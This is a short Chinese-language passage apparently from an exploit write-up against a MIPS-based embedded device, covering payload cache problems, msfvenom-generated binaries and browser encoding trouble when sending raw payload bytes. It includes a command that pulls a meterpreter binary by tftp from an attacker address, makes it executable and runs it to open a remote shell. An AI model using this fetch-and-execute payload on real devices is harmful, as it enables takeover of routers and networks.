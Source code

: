## MIPS“缓存问题”

MIPS 和缓存可能会破坏有效负载，避免缓存问题的众所周知的技术是“睡眠”函数调用。

它在设备上使用一个小的测试二进制文件进行了测试，并且可以正常工作。

## “代码执行”部分

可以使用 msfvenom 工具生成正确的二进制文件。tftp 命令可用于执行复制二进制文件。二进制文件可以通过以下方式执行：

```bash
# copy and execute k44 binary (meterpreter, multi handler, mipsle)
system("tftp -g -r k44 -l k44 /var/tmp/shell 192.168.1.101; chmod +x k44;/var/tmp/k44")
    
```

它在设备上进行了测试，并且可以正常工作。:)

## JavaScript 加密和原始字节发送问题。

从浏览器很难发送复杂的有效载荷。问题是Unicode转换，例如：

![29](images/29-165035549536838.png) 

注意：浏览器输入适用于“简单”字符。

快速回顾一下加密：

![30](images/30-165035549924840.png)
